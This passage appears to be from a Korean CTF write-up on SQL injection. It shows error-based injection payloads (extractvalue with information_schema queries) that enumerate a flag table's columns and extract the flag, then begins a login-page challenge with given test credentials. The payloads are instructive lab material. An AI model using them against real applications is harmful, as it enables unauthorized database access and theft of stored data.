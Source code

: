 ```html
'+or+extractvalue(1,concat(0x7e,(select+column_name+from+information_schema.columns+where+table_schema='errSqli'+and table_name='flagTable'+limit+1,1)))+and+'1'='1
```

> 컬럼 이름: **idx**, **flag**

**flag 컬럼 데이터 추출**
```html
'+or+extractvalue(1,concat(0x7e,(select+flag+from+flagTable+limit+0,1)))+and+'1'='1
```

![error flag](./screenshots/sqli2_flag.png)

**최종적으로 flag까지 얻어내는 데 성공하였다.**

---

### SQL Injection 3

![sqli3 home](./screenshots/sqli3_home.png)

- 이번 문제는 로그인 화면에서 시작된다.
우선, 문제에서 제공된 계정 정보를 이용해 로그인을 시도해보았다.
> 계정 : normaltic / 1234
